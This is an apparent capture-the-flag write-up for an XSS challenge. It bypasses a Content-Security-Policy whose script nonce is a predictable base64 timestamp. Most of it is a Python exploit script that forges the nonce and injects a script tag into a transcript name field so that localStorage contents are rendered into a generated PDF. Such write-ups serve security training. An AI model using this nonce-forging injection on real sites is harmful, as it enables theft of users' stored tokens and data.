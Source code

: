 ![index](./assets/images/web/transcript/index.png)

* This was an XSS challenge with a CSP bypass. The application is straightforward: it generates transcripts with some parameters. The parameter of interest is 'name', as it is directly passed into the HTML, leaving a risk of XSS.

* `Content-Security-Policy: default-src 'self'; script-src 'nonce-MTcxODA0MTEwMDAwMA=='`

* As we can see, we need to send a nonce value with the script tag to execute it, and the nonce value can be easily bypassed since it is the base64 of the timestamp of the request.

* According to the author, the flag was stored in local storage, so we have to include the flag in the PDF transcript URL and view the PDF to retrieve the flag.

* To meet these requirements, we created a script that can include the correct nonce in our request.

```python
import requests
from time import time
from base64 import b64encode
from urllib.parse import quote
import json

base_url = 'http://challs.bcactf.com:30147'

nonce = b64encode(str(int(time()+1)*1000).encode()).decode()
grade = {"name": "test", "grade": ["100", "A"]}
params = {"studentName": f"<script nonce='{nonce}'>document.querySelector('body').innerHTML=localStorage.getItem(localStorage.key(0))</script>", "courses": [grade]}
encoded_params = quote(json.dumps(params), safe='=&?')
url = f"{base_url}/pdftranscript?transcript={encoded_params}"
print(url)
res = requests.get(url)

with open("test.pdf", "wb") as pdf:
    pdf.write(res.content)

print("PDF Saved")
```
